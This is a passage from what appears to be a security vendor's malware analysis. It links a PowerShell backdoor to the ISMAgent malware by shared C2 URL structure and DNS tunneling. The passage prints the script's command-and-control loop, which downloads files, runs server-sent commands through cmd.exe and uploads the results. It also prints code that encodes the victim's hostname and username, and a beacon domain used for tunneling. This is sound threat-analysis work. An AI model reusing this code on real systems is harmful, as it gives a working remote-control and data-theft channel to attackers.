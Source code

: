 


123456789101112131415161718192021222324

 function doIt(){  try{   while($true){    $res = get($ha+"/action2/"+$id)    $p = $res.split('#')    if ($p.Length -lt 5) { break }    $res = $tmp+$p[0]    $u = $ha+"/response/"+$id+"/"+$p[0]    if ($p[2] -ne '') {     $name= $p[2].SubString($p[2].LastIndexOf("/")+1)     download $p[2] ($tmp+$name)     [IO.File]::WriteAllText($res,"done", [System.Text.Encoding]::Unicode)    }    if($p[3] -ne ''){     $p[3] | cmd.exe &gt;&gt; $res    }    if($p[4] -ne ''){     upload $u.Replace("/response/","/upload/") $p[4]    }    upload $u $res     [IO.File]::Delete($res)   }  } catch {} }





Figure 7 The 'doIt' function within the PowerShell script handles C2 interaction and functionality
The commonalities between this PowerShell script and ISMAgent do not stop there. The HTTP requests to the C2 server use the exact same URL structure. For instance, the payload generates a URL using the following line of code, which results in a base64 encoded string that contains [hostname/username]:





$id=[Convert]::ToBase64String($Enc.GetBytes([System.Net.Dns]::GetHostEntry([string]"localhost").HostName+"/"+$env:username)).Replace('=','%3d').Replace("/","%2f").Replace("+","%2b")




1

$id=[Convert]::ToBase64String($Enc.GetBytes([System.Net.Dns]::GetHostEntry([string]"localhost").HostName+"/"+$env:username)).Replace('=','%3d').Replace("/","%2f").Replace("+","%2b")





Also, as seen in the code above, the PowerShell script makes sure the base64 encoded data used is safe to use in an HTTP URL, by replacing the characters “=”, “/” and “+” characters with hexadecimal equivalent. The ISMAgent payloads also performed the exact same replacement, as seen in the portion of code in Figure 8.

Figure 8 Code within ISMAgent payload that overlaps character replacement HTTP communications functionality within PowerShell script
The DNS tunneling protocol within the PowerShell script is the same as the ISMAgent payload, which can be visualized by the following beacon sent from the PowerShell script:





n.n.c.55957d20569c43c9a401e5d446b92b9e.mslicensecheck.com




1

n.n.c.55957d20569c43c9a401e5d446b92b9e.mslicensecheck.com





To facilitate the DNS tunneling functionality, the PowerShell script replaces the “=”, “/” and “+” characters within the base64 data sent to the C2 server within the subdomains of DNS queries. However, DNS queries cannot include the “%” character, so it uses the following line of code to replace them with “-“, “-s-“ and “-p-“ instead:

